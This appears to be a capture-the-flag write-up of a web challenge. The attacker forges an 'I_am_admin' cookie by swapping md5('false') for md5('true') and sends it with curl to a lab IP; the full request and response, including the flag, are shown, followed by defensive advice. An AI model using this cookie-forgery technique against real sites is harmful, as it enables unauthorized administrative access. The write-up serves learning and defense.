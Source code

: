 # Encrypted Admin Cookie


## Description

https://owasp.org/www-community/controls/SecureCookieAttribute

Here we have a non secure "admin" cookie (secure flag missing).
This cookies could be observed by unauthorized parties due to the transmission of the cookie in clear text.

## Attack

In the cookies we find I_am_admin 68934a3e9455fa72420237eb05902327 (false encrypted with md5)
Let's try to send this cookie with true (encrypted with md5) => b326b5062b2f0e69046810717534cb09 with curl
We set up the ip in the attack.sh script

        $ sh attack.sh
        % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                        Dload  Upload   Total   Spent    Left  Speed
        0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 192.168.56.101:80...
        * Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
        > GET / HTTP/1.1
        > Host: 192.168.56.101
        > User-Agent: curl/7.79.1
        > Accept: */*
        > Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09
        > 
        * Mark bundle as not supporting multiuse
        < HTTP/1.1 200 OK
        < Server: nginx/1.4.6 (Ubuntu)
        < Date: Wed, 27 Jul 2022 09:25:15 GMT
        < Content-Type: text/html
        < Transfer-Encoding: chunked
        < Connection: keep-alive
        < X-Powered-By: PHP/5.5.9-1ubuntu4.29
        < 
        { [7014 bytes data]
        100  7001    0  7001    0     0   703k      0 --:--:-- --:--:-- --:--:-- 3418k
        * Connection #0 to host 192.168.56.101 left intact
        <script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>

Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

## Defense

Add the secure cookie flag, by setting it, the browser will prevent the transmission of a cookie over an unencrypted channel
Don't put explicite variable names
Check admin access from backend for every request maybe with an access token